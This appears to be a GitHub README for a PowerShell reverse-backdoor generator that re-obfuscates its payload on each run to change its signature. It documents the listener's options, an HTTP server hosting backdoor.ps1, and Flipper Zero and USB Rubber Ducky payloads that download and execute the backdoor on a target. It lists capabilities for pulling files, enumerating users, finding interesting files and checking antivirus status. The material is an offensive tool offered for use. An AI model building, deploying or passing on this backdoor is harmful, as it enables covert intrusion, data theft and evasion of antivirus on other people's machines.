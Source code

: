 # powershell-backdoor
Reverse Backdoor written in Powershell and obfuscated with python. Allowing the backdoor to have a new signature after every run.
```
usage: listen.py [-h] [--ip-address IP_ADDRESS] [--port PORT] [--random] [--out OUT] [--verbose] [--delay DELAY]
                 [--flipper FLIPPER] [--ducky] [--server-port SERVER_PORT] [-k KEYBOARD]

Powershell Backdoor Generator

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address to bind the backdoor too (default: 192.168.0.223)
  --port PORT, -p PORT  Port for the backdoor to connect over (default: 4444)
  --random, -r          Randomizes the outputed backdoor's file name
  --out OUT, -o OUT     Specify the backdoor filename (relative file names)
  --verbose, -v         Show verbose output
  --delay DELAY         Delay in milliseconds before Flipper Zero/Ducky-Script payload execution (default:100)
  --flipper FLIPPER     Payload file for flipper zero to connect to the http server (includes EOL conversion)
                        (relative file name)
  --ducky               Creates an inject.bin for the http server
  --server-port SERVER_PORT
                        Port to run the HTTP server on (--server) (default: 8989)
  -k KEYBOARD, --keyboard KEYBOARD
                        Keyboard layout for Bad Usb/Flipper Zero (default: us)
```
# Quick Links
* [Preview](#preview)
* [Features](#features)
* [Standard Backdoor](standard-backdoor)
* [Flipper Zero Backdoor](flipper-zero-backdoor)
* [USB Rubber Ducky Backdoor](usb-rubber-ducky-backdoor)
* [Thanks](#thanks)
* [To Do](#to-do)

## Preview
![preview](/images/preview.PNG)
<br>

## Features
* Hak5 Rubber Ducky payload
* Flipper Zero payload
* Download Files from remote system
* Fetch target computers public IP address
* List local users
* Find Intresting Files
* Get OS Information
* Get BIOS Information
* Get Anti-Virus Status
* Get Active TCP Clients
* Checks for common pentesting software installed

## Standard backdoor
``` bash
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --verbose
[*] Encoding backdoor script
[*] Saved backdoor backdoor.ps1 sha1:32b9ca5c3cd088323da7aed161a788709d171b71
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file in the current working directory will be created called backdoor.ps1

## Flipper Zero Backdoor
```
C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --flipper powershell_backdoor.txt
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
Place the text file you specified (e.g: powershell_backdoor.txt) into your flipper zero. When the payload is executed 
it will download and execute backdoor.ps1

## Usb Rubber Ducky Backdoor
```
 C:\Users\DrewQ\Desktop\powershell-backdoor-main> python .\listen.py --ducky
[*] Started HTTP server hosting file: http://192.168.0.223:8989/backdoor.ps1
[*] Starting Backdoor Listener 192.168.0.223:4444 use CTRL+BREAK to stop
```
A file named inject.bin will be placed in your current working directory. Java is required for this feature. When the payload is executed 
it will download and execute backdoor.ps1

## Thanks
To encode payload.txt into inject.bin for USB Rubber Ducky Attacks I use encoder.jar created by ![midnitesnake](https://github.com/midnitesnake).

## Backdoor Execution
Tested on Windows 11, Windows 10 and Kali Linux
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```

## To Do 
* Add Standard Backdoor
* Find Writeable Directories
* Get Windows Update Status

## Output of 5 obfuscations/Runs 
```
sha1:c7a5fa3e56640ce48dcc3e8d972e444d9cdd2306
sha1:b32dab7b26cdf6b9548baea6f3cfe5b8f326ceda
sha1:e49ab36a7ad6b9fc195b4130164a508432f347db
sha1:ba40fa061a93cf2ac5b6f2480f6aab4979bd211b
sha1:f2e43320403fb11573178915b7e1f258e7c1b3f0
```
